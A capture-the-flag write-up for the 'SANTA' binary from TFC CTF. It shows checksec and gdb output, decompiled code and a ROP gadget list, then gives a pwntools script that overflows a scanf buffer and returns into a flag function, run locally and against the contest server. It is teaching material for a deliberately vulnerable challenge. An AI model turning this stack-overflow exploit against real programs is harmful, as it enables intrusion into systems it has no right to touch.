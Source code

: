 # SANTA

Challenge author: tomadimitrie

Tell your wish to Santa... it might come true

## Analysis

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file santa; checksec santa  
santa: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2879273bfbd6a37bf2fb59b81093e32888d50e5c, not stripped
[*] '/home/kali/Documents/TFC CTF/santa'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
$ ./santa 
What are you wishing for?

chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-30h]
  __int64 v5; // [rsp+8h] [rbp-28h]
  __int64 v6; // [rsp+10h] [rbp-20h]
  __int64 v7; // [rsp+18h] [rbp-18h]
  __int64 v8; // [rsp+20h] [rbp-10h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("What are you wishing for?\n");
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  __isoc99_scanf("%s", &v4);
  return 0;
}
```

From the source code, there is another function that caught my eyes. It's a `flag` function. Let's take a look.

#### flag
```c
int flag()
{
  return system("cat flag");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./santa
Reading symbols from ./santa...
(No debugging symbols found in ./santa)
gdb-peda$ pattern create 64
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/TFC CTF/santa 
What are you wishing for?

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in the main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf68: 0x4841413241416341
gdb-peda$ pattern offset 0x4841413241416341
5206514328315978561 found at offset: 56
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  __isoc99_scanf@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  flag
0x0000000000401165  main
0x00000000004011e0  __libc_csu_init
0x0000000000401240  __libc_csu_fini
0x0000000000401244  _fini
```

Lastly, we need to get the return address. So when we overwrite the stack, we could change the instruction to return to flag function. To get the return address, we could use ROPgadget.
```
$ ROPgadget --binary santa | grep "ret"
0x0000000000401099 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004010cb : add bh, bh ; loopne 0x401135 ; nop ; ret
0x00000000004011d8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011d9 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401098 : add byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011da : add byte ptr [rax], al ; leave ; ret
0x000000000040109e : add byte ptr [rax], al ; ret
0x000000000040109d : add byte ptr [rax], r8b ; ret
0x0000000000401137 : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011db : add cl, cl ; ret
0x00000000004010ca : add dil, dil ; loopne 0x401135 ; nop ; ret
0x0000000000401138 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x0000000000401224 : fmul qword ptr [rax - 0x7d] ; ret
0x000000000040109a : hlt ; nop dword ptr [rax + rax] ; ret
0x00000000004011dc : leave ; ret
0x00000000004010cd : loopne 0x401135 ; nop ; ret
0x0000000000401132 : mov byte ptr [rip + 0x2f17], 1 ; pop rbp ; ret
0x00000000004011d7 : mov eax, 0 ; leave ; ret
0x0000000000401162 : nop ; pop rbp ; ret
0x00000000004010cf : nop ; ret
0x000000000040109b : nop dword ptr [rax + rax] ; ret
0x000000000040123d : nop dword ptr [rax] ; ret
0x0000000000401234 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401236 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401238 : pop r14 ; pop r15 ; ret
0x000000000040123a : pop r15 ; ret
0x0000000000401233 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401237 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000401139 : pop rbp ; ret
0x000000000040123b : pop rdi ; ret
0x0000000000401239 : pop rsi ; pop r15 ; ret
0x0000000000401235 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401016 : ret
0x0000000000401062 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401245 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000401244 : sub rsp, 8 ; add rsp, 8 ; ret

```

From the ROPgadget, we only need the one that holds the information of "ret" and the ret address is `0x0000000000401016`

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

s = process("./santa")

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](santa-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./santa")` to `s = remote(host, port)`
```python
from pwn import *

offset = 56
flag = 0x0000000000401152
ret = 0x0000000000401016

payload = b""
payload += b"A"*offset
payload += p64(ret)
payload += p64(flag)

host = "34.65.54.58"
port = 1340

s = remote(host, port)

print(s.recvline().decode())
s.sendline(payload)
print(s.recvall().decode())

s.close()
```

Now all we need to do is just run the program!
![](santa.png)

Flag: `TFCCTF{A11_I_w4nt_4_Chr15tm4s_i5_y0uuuu}`